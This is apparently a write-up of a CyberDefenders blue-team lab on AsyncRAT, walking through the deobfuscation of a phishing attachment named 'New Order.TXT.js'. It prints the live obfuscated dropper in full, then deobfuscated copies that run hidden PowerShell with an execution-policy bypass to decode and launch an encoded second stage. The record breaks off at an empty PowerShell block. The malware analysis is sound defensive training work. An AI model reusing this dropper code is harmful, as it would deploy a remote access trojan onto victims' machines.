



# 🐀 AsyncRAT LAB Write-up 

Challenge Source: [CyberDefenders AsyncRAT Lab](https://cyberdefenders.org/blueteam-ctf-challenges/asyncrat/) 

# Background

AsyncRAT is an open-source Remote Access Trojan (RAT) developed in C#, initially intended for legitimate remote administration. However, its extensive capabilities have led to widespread misuse by cybercriminals for malicious purposes.

You can find the github of AsyncRAT [here](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp)


# Scenario

You are a cybersecurity analyst at Globex Corp. A concerning report has come in: an employee opened an email with an attachment claiming to be an order specification, which actually harbored a JavaScript file designed to deploy AsyncRAT. This malware evades detection with alarming efficiency. To secure Globex's network and data, you must analyze the attachment, reverse-engineer the AsyncRAT’s obfuscation techniques, and determine the scope of AsyncRAT's infiltration.



# Solution

### TL;DR

- Deobfuscate the javascript code
- Extract the second stage payload
- Analyze the persistence mechanism
- Extract the third stage

## 📌 Q1. In the process of dissecting the AsyncRAT payload, you discover a variable in the PowerShell script shrouded in complexity. What is the name of this variable that conceals the malicious obfuscated code?

We begin with the email attachment: a JavaScript file named `New Order.TXT.js` (seen in the malicious email screenshot). This file seems malicious for having a double extension and that second extension beeing javascript.

I open the file in VS Code.


When open, the code looks like this. It seems heavily obfuscated using common JavaScript obfuscation techniques (such as string reversal and hexadecimal encoding)

```javascript
var _0x2ed357 = _0x55e1;
(function (_0x4fbbdd, _0x38b324) {
    var _0x1efc0 = _0x55e1;
    var _0x3c7ba1 = _0x4fbbdd();
    while (!![]) {
        try {
            var _0x170c96 = parseInt(_0x1efc0(0x12f)) / 0x1 + parseInt(_0x1efc0(0x12a)) / 0x2 + -parseInt(_0x1efc0(0x11e)) / 0x3 * (-parseInt(_0x1efc0(0x11b)) / 0x4) + -parseInt(_0x1efc0(0x123)) / 0x5 * (-parseInt(_0x1efc0(0x131)) / 0x6) + parseInt(_0x1efc0(0x134)) / 0x7 + -parseInt(_0x1efc0(0x11c)) / 0x8 * (-parseInt(_0x1efc0(0x132)) / 0x9) + -parseInt(_0x1efc0(0x11d)) / 0xa * (parseInt(_0x1efc0(0x130)) / 0xb);
            if (_0x170c96 === _0x38b324) {
                break;
            } else {
                _0x3c7ba1['push'](_0x3c7ba1['shift']());
            }
        } catch (_0x2f32f5) {
            _0x3c7ba1['push'](_0x3c7ba1['shift']());
        }
    }
}(_0x2053, 0xa1738));
var gQBnV = ![];
function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x5d58a2) {
    var _0x58d92c = _0x55e1;
    return _0x5d58a2[_0x58d92c(0x133)]('')[_0x58d92c(0x135)]()[_0x58d92c(0x129)]('');
}
var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12c));
var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('\x27\x20=\x20ogidoC$') + olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + '\x27;' + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x124)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x127)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12e)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12b)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12d)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('6esaBmorF::]trevno') + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x126)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x125)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x121)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x11f)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x128)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('moc-\x20eliforPo') + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('dxujWO$\x20dnam');
var eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj = _0x2ed357(0x122);
var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject(eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj);
ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF[_0x2ed357(0x120)](_0x2ed357(0x11a) + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + '\x22', 0x0, ![]);
function _0x55e1(_0x2fba78, _0x26ef0b) {
    var _0x205308 = _0x2053();
    _0x55e1 = function (_0x55e126, _0x45c24a) {
        _0x55e126 = _0x55e126 - 0x11a;
        var _0x157235 = _0x205308[_0x55e126];
        return _0x157235;
    };
    return _0x55e1(_0x2fba78, _0x26ef0b);
}
function _0x2053() {
    var _0x2ba7ce = [
        'S[\x20=\x20dxujWO$',
        ';))\x20)\x27b\x27,\x27♚♛\x27(eca',
        'lper.ogidoc$(gnirtS4',
        'eT.metsy',
        'N-\x20ssapyb\x20ycilopnoituc',
        'join',
        '1025078vdqKYY',
        'eG.edoci',
        '==Aa0FGUlhXRw1WZ0RCIk5WYt12♚♛j1CIlxWam9mcQ9mTtAyczFGc5JGI5NWas9Gcu9Wa0V3YlhXZtAi♚♛lRGZphGIlxWe0N3dvRm♚♛pdXLgUGel5C♚♛sVGazJXZ39Gc7kyclRXeCRm♚♛h1W♚♛vNGJgwCa0FGUlhXRw1WZ0RCKzVGd5JE♚♛sFUZ0lmcXpjOdVG♚♛pZkLPlkLtVGdzl3U♚♛tjIlhXZuICIrASKocm♚♛pJHdT9GVukCKklWdHdXZOpjOdRWa1dkLtVGdzl3U♚♛ByKgkCKoRXYQBX♚♛lRFdldkO60Fa0FGUu8USu0WZ0NXeTtFI9ACa0FGUlhXRw1WZ0RyOpQm♚♛h1W♚♛vNEN2U2chJGJocm♚♛pJHdTRjNlNXYC12♚♛yZkO60FdyVmdu92Qu0WZ0NXeTtFI9AyclRXeCRm♚♛h1W♚♛vNGJ7Qm♚♛h1W♚♛vNEN2U2chJGJg4WavpWL9Qm♚♛h1W♚♛vNEN2U2chJGJ7kCZuFW♚♛t92Q0YTZzFmYkgSZzJXZ2VmU6oTX5FmcyF2W7kCK5FmcyFkchh2QvRlLpgGdn5WZMRjNlNXYiRCIsgXZk5WS0JXY0NHJocm♚♛pJHdzJWdT5Cd4VGVldWYtlGJg0DIk5WYt12♚♛DRjNlNXYiRyO4VGZulEdyFGdzRCItACelRm♚♛JRm♚♛lRCI9ACa0dm♚♛lxEN2U2chJGJ7gGdn5WZM5yZhxmR0JXY0NHJg0zKggXZk5WS0JXY0NHJ7gXZk5WS0JXY0NHJgQ3ZtACelRm♚♛JRm♚♛lRCIk5WYtACMgU2ZtACelRm♚♛JRnchR3cksTKnFG♚♛GRm♚♛lRCKm9EelRm♚♛J5Cd4VGVldWYtlGJg0DI4VGZulEZuVGJ7kyZhxmR0JXY0NHJoY2T4VGZulkL0hXZUV2Zh1WakASPggXZk5WS0JXY0NHJ7ciP+QkTF9FN2U0UBJEP8cCI9AyZhxmRk5WZkszJ+4DVSFEVT9FN2U0UBJEP8cCI9AyZhxmR0JXY0NHJ7kyclRXeCV2Zh1WakgyZulmc0NFdldkL4YEVVpjOddm♚♛pR2♚♛j5WRuQHelRlLtVGdzl3U♚♛BSPgQHelRVZnFW♚♛pRyOpwmcVV2Zh1WakgSY0FGRkF2♚♛s52dvRkL05WZpx2QiV2dkASPgMXZ0lnQldWYtlGJ7Qn♚♛llG♚♛DJWZX5Cdl5kLtVGdzl3UgQ3YlpmYP1ydl5EI9ACduVWasNkYldHJ7cyZuBnLrZzSzQlerhHczllcvMXZnFW♚♛p9y♚♛j5CZyJGcuIm♚♛kN2Zv8iOzBHd0h2Jg0DIsJXVldWYtlGJ',
        'C.metsyS[(gnirtSt',
        'nU::]gnidocnE.tx',
        '1300151dRQMiR',
        '11SZefHC',
        '6irkekm',
        '488718KfgGNI',
        'split',
        '3218285wvujoz',
        'reverse',
        'powershell\x20-command\x20\x22',
        '4AOQQVR',
        '136SVlYwa',
        '32526170qzGCNq',
        '374217EdqpjF',
        'exe-\x20neddih\x20elytswod',
        'Run',
        'niw-\x20exe.llehsrewop',
        'WScript.Shell',
        '2968015qdSJdF'
    ];
    _0x2053 = function () {
        return _0x2ba7ce;
    };
    return _0x2053();
}
```

I use https://deobfuscate.io/ that redirect me to https://obf-io.deobfuscate.io/ in order to deobfuscate it.




Once deobfuscating the code look like this:

```javascript
function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x5d58a2) {
  return _0x5d58a2.split('').reverse().join('');
}
var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = "==Aa0FGUlhXRw1WZ0RCIk5WYt12♚♛j1CIlxWam9mcQ9mTtAyczFGc5JGI5NWas9Gcu9Wa0V3YlhXZtAi♚♛lRGZphGIlxWe0N3dvRm♚♛pdXLgUGel5C♚♛sVGazJXZ39Gc7kyclRXeCRm♚♛h1W♚♛vNGJgwCa0FGUlhXRw1WZ0RCKzVGd5JE♚♛sFUZ0lmcXpjOdVG♚♛pZkLPlkLtVGdzl3U♚♛tjIlhXZuICIrASKocm♚♛pJHdT9GVukCKklWdHdXZOpjOdRWa1dkLtVGdzl3U♚♛ByKgkCKoRXYQBX♚♛lRFdldkO60Fa0FGUu8USu0WZ0NXeTtFI9ACa0FGUlhXRw1WZ0RyOpQm♚♛h1W♚♛vNEN2U2chJGJocm♚♛pJHdTRjNlNXYC12♚♛yZkO60FdyVmdu92Qu0WZ0NXeTtFI9AyclRXeCRm♚♛h1W♚♛vNGJ7Qm♚♛h1W♚♛vNEN2U2chJGJg4WavpWL9Qm♚♛h1W♚♛vNEN2U2chJGJ7kCZuFW♚♛t92Q0YTZzFmYkgSZzJXZ2VmU6oTX5FmcyF2W7kCK5FmcyFkchh2QvRlLpgGdn5WZMRjNlNXYiRCIsgXZk5WS0JXY0NHJocm♚♛pJHdzJWdT5Cd4VGVldWYtlGJg0DIk5WYt12♚♛DRjNlNXYiRyO4VGZulEdyFGdzRCItACelRm♚♛JRm♚♛lRCI9ACa0dm♚♛lxEN2U2chJGJ7gGdn5WZM5yZhxmR0JXY0NHJg0zKggXZk5WS0JXY0NHJ7gXZk5WS0JXY0NHJgQ3ZtACelRm♚♛JRm♚♛lRCIk5WYtACMgU2ZtACelRm♚♛JRnchR3cksTKnFG♚♛GRm♚♛lRCKm9EelRm♚♛J5Cd4VGVldWYtlGJg0DI4VGZulEZuVGJ7kyZhxmR0JXY0NHJoY2T4VGZulkL0hXZUV2Zh1WakASPggXZk5WS0JXY0NHJ7ciP+QkTF9FN2U0UBJEP8cCI9AyZhxmRk5WZkszJ+4DVSFEVT9FN2U0UBJEP8cCI9AyZhxmR0JXY0NHJ7kyclRXeCV2Zh1WakgyZulmc0NFdldkL4YEVVpjOddm♚♛pR2♚♛j5WRuQHelRlLtVGdzl3U♚♛BSPgQHelRVZnFW♚♛pRyOpwmcVV2Zh1WakgSY0FGRkF2♚♛s52dvRkL05WZpx2QiV2dkASPgMXZ0lnQldWYtlGJ7Qn♚♛llG♚♛DJWZX5Cdl5kLtVGdzl3UgQ3YlpmYP1ydl5EI9ACduVWasNkYldHJ7cyZuBnLrZzSzQlerhHczllcvMXZnFW♚♛p9y♚♛j5CZyJGcuIm♚♛kN2Zv8iOzBHd0h2Jg0DIsJXVldWYtlGJ".split('').reverse().join('');
var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = "' = ogidoC$".split('').reverse().join('') + olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + "';" + "S[ = dxujWO$".split('').reverse().join('') + "eT.metsy".split('').reverse().join('') + "nU::]gnidocnE.tx".split('').reverse().join('') + "eG.edoci".split('').reverse().join('') + "C.metsyS[(gnirtSt".split('').reverse().join('') + '6esaBmorF::]trevno'.split('').reverse().join('') + "lper.ogidoc$(gnirtS4".split('').reverse().join('') + ";)) )'b','♚♛'(eca".split('').reverse().join('') + "niw- exe.llehsrewop".split('').reverse().join('') + "exe- neddih elytswod".split('').reverse().join('') + "N- ssapyb ycilopnoituc".split('').reverse().join('') + "moc- eliforPo".split('').reverse().join('') + "dxujWO$ dnam".split('').reverse().join('');
var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject("WScript.Shell");
ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF.Run("powershell -command \"" + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + "\"", 0x0, false);
```

After renaming variable: 

```javascript
function Func1(_0x5d58a2) {
  return _0x5d58a2.split('').reverse().join('');
}
var String1 = "==Aa0FGUlhXRw1WZ0RCIk5WYt12♚♛j1CIlxWam9mcQ9mTtAyczFGc5JGI5NWas9Gcu9Wa0V3YlhXZtAi♚♛lRGZphGIlxWe0N3dvRm♚♛pdXLgUGel5C♚♛sVGazJXZ39Gc7kyclRXeCRm♚♛h1W♚♛vNGJgwCa0FGUlhXRw1WZ0RCKzVGd5JE♚♛sFUZ0lmcXpjOdVG♚♛pZkLPlkLtVGdzl3U♚♛tjIlhXZuICIrASKocm♚♛pJHdT9GVukCKklWdHdXZOpjOdRWa1dkLtVGdzl3U♚♛ByKgkCKoRXYQBX♚♛lRFdldkO60Fa0FGUu8USu0WZ0NXeTtFI9ACa0FGUlhXRw1WZ0RyOpQm♚♛h1W♚♛vNEN2U2chJGJocm♚♛pJHdTRjNlNXYC12♚♛yZkO60FdyVmdu92Qu0WZ0NXeTtFI9AyclRXeCRm♚♛h1W♚♛vNGJ7Qm♚♛h1W♚♛vNEN2U2chJGJg4WavpWL9Qm♚♛h1W♚♛vNEN2U2chJGJ7kCZuFW♚♛t92Q0YTZzFmYkgSZzJXZ2VmU6oTX5FmcyF2W7kCK5FmcyFkchh2QvRlLpgGdn5WZMRjNlNXYiRCIsgXZk5WS0JXY0NHJocm♚♛pJHdzJWdT5Cd4VGVldWYtlGJg0DIk5WYt12♚♛DRjNlNXYiRyO4VGZulEdyFGdzRCItACelRm♚♛JRm♚♛lRCI9ACa0dm♚♛lxEN2U2chJGJ7gGdn5WZM5yZhxmR0JXY0NHJg0zKggXZk5WS0JXY0NHJ7gXZk5WS0JXY0NHJgQ3ZtACelRm♚♛JRm♚♛lRCIk5WYtACMgU2ZtACelRm♚♛JRnchR3cksTKnFG♚♛GRm♚♛lRCKm9EelRm♚♛J5Cd4VGVldWYtlGJg0DI4VGZulEZuVGJ7kyZhxmR0JXY0NHJoY2T4VGZulkL0hXZUV2Zh1WakASPggXZk5WS0JXY0NHJ7ciP+QkTF9FN2U0UBJEP8cCI9AyZhxmRk5WZkszJ+4DVSFEVT9FN2U0UBJEP8cCI9AyZhxmR0JXY0NHJ7kyclRXeCV2Zh1WakgyZulmc0NFdldkL4YEVVpjOddm♚♛pR2♚♛j5WRuQHelRlLtVGdzl3U♚♛BSPgQHelRVZnFW♚♛pRyOpwmcVV2Zh1WakgSY0FGRkF2♚♛s52dvRkL05WZpx2QiV2dkASPgMXZ0lnQldWYtlGJ7Qn♚♛llG♚♛DJWZX5Cdl5kLtVGdzl3UgQ3YlpmYP1ydl5EI9ACduVWasNkYldHJ7cyZuBnLrZzSzQlerhHczllcvMXZnFW♚♛p9y♚♛j5CZyJGcuIm♚♛kN2Zv8iOzBHd0h2Jg0DIsJXVldWYtlGJ".split('').reverse().join('');
var String2 = "' = ogidoC$".split('').reverse().join('') + String1 + "';" + "S[ = dxujWO$".split('').reverse().join('') + "eT.metsy".split('').reverse().join('') + "nU::]gnidocnE.tx".split('').reverse().join('') + "eG.edoci".split('').reverse().join('') + "C.metsyS[(gnirtSt".split('').reverse().join('') + '6esaBmorF::]trevno'.split('').reverse().join('') + "lper.ogidoc$(gnirtS4".split('').reverse().join('') + ";)) )'b','♚♛'(eca".split('').reverse().join('') + "niw- exe.llehsrewop".split('').reverse().join('') + "exe- neddih elytswod".split('').reverse().join('') + "N- ssapyb ycilopnoituc".split('').reverse().join('') + "moc- eliforPo".split('').reverse().join('') + "dxujWO$ dnam".split('').reverse().join('');
var String3 = new ActiveXObject("WScript.Shell");
String3.Run("powershell -command \"" + String2 + "\"", 0x0, false);
```


I use https://onecompiler.com/nodejs/43gdbzxma to execute and retreive the command line within string1 and string2:

```powershell
